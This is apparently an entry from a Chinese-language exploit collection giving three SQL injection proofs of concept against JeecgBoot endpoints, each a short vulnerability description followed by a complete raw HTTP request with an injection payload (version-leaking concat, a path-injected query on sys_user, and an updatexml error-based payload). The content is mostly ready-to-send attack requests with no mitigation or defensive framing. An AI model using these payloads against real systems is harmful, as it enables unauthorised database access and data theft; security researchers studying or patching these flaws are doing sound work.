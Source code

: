## JeecgBoot onlDragDatasetHead/getTotalData SQL注入  
```
JeecgBoot v3.7.1 通过组件 /onlDragDatasetHead/getTotalData 存在 SQL 注入漏洞。
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/2
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Content-Type: application/json
Content-Length: 281
{"tableName":"sys_user","compName":"test","condition":{"filter":{}},"config":{"assistValue":[],"assistType":[],"name":[{"fieldName":"concat(0x7e,version(),0x7e)","fieldType":"string"},{"fieldName":"id","fieldType":"string"}],"value":[{"fieldName":"id","fieldType":"1"}],"type":[]}}
```  
  
## jeecg-boot-getDictItemsByTable SQL注入漏洞  
  
JeecgBoot是一款基于代码生成器的低代码开发平台，它专为简化Java项目开发流程、提高开发效率而设计。攻击者通过注入恶意的SQL代码，能够窃取、篡改或删除数据库中的数据，甚至执行系统命令，对网站和服务器造成严重影响。  
  
```
GET /jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Sec-Purpose: prefetch
Connection: close
Priority: u=6
```  
  
## Jeecg-Boot /jmreport/show SQL注入漏洞  
```
jeecg-boot 3.5.0和3.5.1 版本存在安全漏洞，该漏洞源于 /jeecg-boot/jmreport/show 接口的 id 参数存在SQL注入漏洞。
POST /jeecg-boot/jmreport/show HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Connection: close
Content-Length: 182
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip
{
"id": "961455b47c0b86dc961e90b5893bff05",
"apiUrl": "",
"params": {
"id ": "1 ' or ' % 1 % ' like (updatexml(0x3a,concat(1,(version())),1)) or ' % % ' like '"
}
}
```  
  